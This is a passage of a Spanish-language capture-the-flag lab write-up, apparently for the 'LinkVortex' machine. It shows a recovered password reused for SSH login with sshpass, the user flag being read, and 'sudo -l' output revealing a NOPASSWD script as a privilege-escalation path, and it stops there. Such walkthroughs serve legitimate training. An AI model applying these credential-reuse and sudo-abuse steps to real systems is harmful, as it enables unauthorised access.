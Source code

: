 ```console
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

Podemos probar el combo `bob:fibber-talented-worth` por SSH para ver si se reutilizan credenciales, y efectivamente.
```console
sshpass -p 'fibber-talented-worth' ssh bob@10.129.112.131
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Fri Dec 13 12:59:56 2024 from 10.10.14.197
bob@linkvortex:~$ id
uid=1001(bob) gid=1001(bob) groups=1001(bob)
```

Estamos en la máquina víctima, no en un contenedor.
```console
bob@linkvortex:~$ ip a | grep eth0
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    inet 10.129.112.131/16 brd 10.129.255.255 scope global dynamic eth0
```

Podemos leer la flag de usuario.
```console
bob@linkvortex:~$ cat user.txt
b79c313340e06e...
```

# Privilege Escalation
## Abusing sudo custom script
Podemos ejecutar como cualquier usuario y sin contraseña un script y como parámetro le podemos pasar un archivo png.
```console
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
